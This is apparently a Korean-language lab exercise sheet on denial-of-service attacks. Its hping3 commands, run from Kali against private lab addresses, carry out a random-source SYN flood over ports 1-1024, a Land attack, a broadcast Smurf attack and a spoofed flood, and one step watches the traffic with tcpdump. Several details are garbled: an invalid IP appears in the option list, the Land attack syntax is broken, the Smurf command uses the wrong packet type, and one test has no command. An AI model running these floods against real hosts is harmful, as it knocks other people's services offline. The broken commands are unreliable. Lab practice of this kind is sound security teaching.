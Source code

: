![응답 비교](./img/DDosimg/5.png)<br>

---

## 실습 4. (DDoS Attack) 공격 대상 시스템에 '무작위(Random)'의 IP주소를 계속 보낸다.

```
[samadal@kali ~]$ sudo hping3 --rand-source 192.168.10.132 -p 1-1024 -S --flood
```

- 옵션
    - --rand-source (무작위)
    - 192.618.10.132 (대상 IP)
    - -p 1-1024 (스캐닝할 포트)
    - -S (TCP Flag 'SYN')
    - --flood (플로딩)

## 실습 5. tcpdump(스니핑 도구)를 이용한 네트워크 패킷 확인
```
[samadal@kali ~]$sudo hping3 --rand-source 192.168.10.132 -p 1-1024 -S --flood
[samadal@kali ~/Desktop]$ sudo tcpdump
```

## 실습 6. 기타
- 테스트 1. Sync Flooding Attack
    - 'TCP Session'을 연결하는 과정에서 'Sync' 패킷을 많이 보내고 자원을 고갈시키는 공격
    - 명령어

- 테스트 2. Land Attack
    - 공격 대상의 IP를 Source IP로 설정해서 루프를 유발시키고 공격효과를 배로 향상 시키는 공격
    - 명령어
    ```
    [samadal@kali ~]$ sudo hping3 192.168.10.132 -a -S i u40 -c 50
    ```

- 테스트 3. Smurf Attack
    - Source IP를 변경하고 Direct Broadcast를 사용하여 ICMP echo reply 신호를 많이 받아서 부하를 일으키는 공격 
    ```
    sudo hping3 192.168.10.255 -a 192.168.10.134 -S -c 10
    ```
- 테스트 4. DDoS Attack
    ```
    sudo hping3 --flood --rand-source 192.168.10.134
    ```

